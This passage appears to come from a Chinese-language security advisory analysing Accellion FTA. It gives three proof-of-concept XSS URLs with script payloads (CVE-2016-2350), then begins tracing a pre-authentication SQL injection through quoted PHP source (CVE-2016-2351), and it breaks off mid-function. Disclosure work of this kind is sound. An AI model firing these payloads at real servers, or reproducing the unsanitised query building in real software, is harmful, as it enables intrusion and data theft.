 ### 漏洞分析與利用
<br>

#### Multiple Cross-Site Scripting (CVE-2016-2350)

##### 1. XSS in move\_partition\_frame.html

> https://\<fta\>/courier/move_partition_frame.html<br>
> ?f2='-prompt(document.domain);//

##### 2. XSS in getimageajax.php

> https://\<fta\>/courier/web/getimageajax.php<br>
> ?documentname="onerror="prompt(document.domain)//


##### 3. XSS in wmInfo.html

> https://\<fta\>/courier/web/wmInfo.html<br>
> ?msg=ssologout<br>
> &loginurl="><svg/onload="prompt(document.domain)

<br>

#### Pre-Auth SQL Injection leads to RCE (CVE-2016-2351)

經過代碼審查後，在 FTA 中發現一個不須驗證的 SQL Injection，這使得惡意使用者可透過 SQL Injection 存取伺服器的敏感檔案及個人資料，並配合權限設定問題導致遠端代碼執行。問題出在 security\_key2.api 中所呼叫到的 `client_properties( ... )` 函數中！

**/home/seos/courier/security_key2.api**

{% highlight php startinline %}
// ...
$password = _decrypt( $password, _generate_key( $g_app_id, $client_id, $g_username ) );
opendb();
$client_info = client_properties( $client_id )[0];
// ...
{% endhighlight %}

其中 `$g_app_id` `$g_username` `$client_id` `$password` 皆為攻擊者可控參數，雖然有個 `_decrypt( ... )` 函數對密碼進行處理，但是與弱點觸發並無相關。其中要注意是 `$g_app_id` 的值會被代入成全域變數，代表當前使用的 Application ID，並且在 `opendb( )` 使用，其中在 `opendb( )` 內有以下代碼：

{% highlight php startinline %}
$db = DB_MASTER . $g_app_id;
if(!@mysql_select_db( $db ))
{% endhighlight %}
`mysql_select_db` 中所開啟資料庫的名稱由使用者可控，如給錯誤的值將導致程式無法繼續執行下去，所以必須將 `$g_app_id` 偽造成正確的內容。

接著是最主要的函數 `client_properties( $client_id )`

{% highlight php startinline %}
function client_properties($client_id = '', $user = '', $manager = '', $client_type = 0, $client_name = '', $order_by = 'client_id', $order_type = 'a', $limit = '', $offset = '', $exclude_del = 1, $user_type = '', $user_status = '') {
    $sql = ($user_type  = '' ? 'SELECT t_mail_server.* FROM t_mail_server ' : 'SELECT t_mail_server.*, t_profile.c_flag as profile_flag FROM t_mail_server, t_profile ');
    $filter['client_id'] = $client_id;
    $filter['client_name'] = $client_name;
    $filter['client_type'] = $client_type;
    $filter['user'] = mysql_escape_like( $user );
    $filter['user_type'] = $user_type;
    $filter['manager'] = $manager;
    $filter['user_status'] = $user_status;
    $sql &= construct_where_clause( $filter, $exclude_del );

    // ...

    $result = array(  );
    @mysql_query( $sql );